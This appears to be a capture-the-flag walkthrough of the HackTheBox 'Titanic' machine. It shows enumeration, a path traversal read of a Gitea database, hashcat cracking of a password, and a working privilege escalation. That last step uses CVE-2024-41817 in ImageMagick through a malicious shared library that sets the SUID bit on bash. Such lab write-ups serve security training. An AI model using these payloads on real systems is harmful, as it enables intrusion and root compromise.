 ```yaml
---
title: "Titanic"
date: 2025-06-21
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Titanic

![](../assets/Pasted%20image%2020250604002453.png)

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 23:39 CEST
Nmap scan report for 10.10.11.55
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Aggressive OS guesses: Linux 5.0 - 5.14 (98%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (98%), Linux 4.15 - 5.19 (94%), Linux 2.6.32 - 3.13 (93%), OpenWrt 22.03 (Linux 5.10) (92%), Linux 3.10 - 4.11 (91%), Linux 5.0 (91%), Linux 3.2 - 4.14 (90%), Linux 4.15 (90%), Linux 2.6.32 - 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   41.22 ms 10.10.14.1
2   41.60 ms 10.10.11.55

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.31 seconds
```

Add `titanic.htb` to `/etc/hosts`.

The site shows a service to book Titanic trips.

![](../assets/Pasted%20image%2020250604004538.png)

Use `wfuzz` to enumerate subdomains and find `dev`.

```shell
$ wfuzz -c -t 200 --hh 154 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.titanic.htb" http://titanic.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================
000000019:   200        275 L    1278 W     13870 Ch    "dev"                                 
```

Add `dev.titanic.htb` to `/etc/hosts` and browse the site.

![](../assets/Pasted%20image%2020250604004742.png)

It's a Gitea instance in which we can register.

Log in with the new account and check the repos to find some data.

The Docker Compose for `MySQL` with credentials, another one for Gitea, and the app code from before.

![](../assets/Pasted%20image%2020250602234840.png)

![](../assets/Pasted%20image%2020250604010747.png)

![](../assets/Pasted%20image%2020250604010124.png)

## Initial Access

We can see at the `/download` endpoint that there is no path traversal protection, so we can make a request and perform an LFI attack pointing to the Gitea database at `/home/developer/gitea/data/gitea/gitea.db` as seen in the Docker Compose and the Gitea docs (`gitea/gitea.db`).
`/download?ticket=../../../../../../../home/developer/gitea/data/gitea/gitea.db`

![](../assets/Pasted%20image%2020250604011004.png)

The hash and salt are in hex format; we need them in `base64` to feed them to hashcat as seen [here](https://hashcat.net/wiki/doku.php?id=example_hashes):

![](../assets/Pasted%20image%2020250604011501.png)

hash: `e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`
salt: `8bf3e3452b78544f8bee9400d6936d34`

Use `xxd` to convert it from hex to binary and then `base64` to encode it.

```shell
$ echo 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56' | xxd -p -r | base64
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ echo '8bf3e3452b78544f8bee9400d6936d34' | xxd -p -r | base64
i/PjRSt4VE+L7pQA1pNtNA==
```

`sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

```shell
$ sudo hashcat hash SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz --force -d 2
hashcat (v6.2.6) starting in autodetect mode

The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Dictionary cache hit:
* Filename..: SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
* Passwords.: 14344383
* Bytes.....: 53291283
* Keyspace..: 14344383

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

`developer:25282528`

Log into the machine via `ssh`:

```shell
$ ssh developer@titanic.htb
developer@titanic.htb password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Jun  3 09:55:33 PM UTC 2025

  System load:           0.78
  Usage of /:            83.1% of 6.79GB
  Memory usage:          23%
 
Last login: Tue Jun 3 00:17:16 2025 from 10.10.14.8
developer@titanic:~$ cd /opt
developer@titanic:/opt$ whoami
developer
```

Get the flag:

```shell
developer@titanic:~$ cat user.txt
c7158d122d55f4fa53de64dd03ca2085
```

## Privilege Escalation

A script in `/opt/scripts` that uses `magick` does some processing on images.

```shell
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

We can check the version:

```shell
developer@titanic:/opt/scripts$ /usr/bin/magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
```

Looking for vulnerabilities, we find [CVE-2024-41817](https://www.fortiguard.com/encyclopedia/endpoint-vuln/81352#), which we can use to escalate privileges.

- [FortiGuard CVE-2024-41817](https://www.fortiguard.com/encyclopedia/endpoint-vuln/81352#)
- [Mindpatch writeup](https://mindpatch.medium.com/cve-2024-41817-how-env-var-triggers-rce-in-imagemagicks-appimage-14d54aba5613)

Create the shared library and place it in the working directory `/opt/app/static/assets/images`:

```shell
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
__attribute__((constructor)) void init(){  
    system("chmod +s /bin/bash");  
    exit(0);  
}  
EOF
```

A root cron job will execute it.

![](../assets/Pasted%20image%2020250604012917.png)

## Post Exploitation

Get the flag:

```shell
bash-5.1# cat root.txt
aa8be85cd77b9e27a344d1c68ec01f3f
```
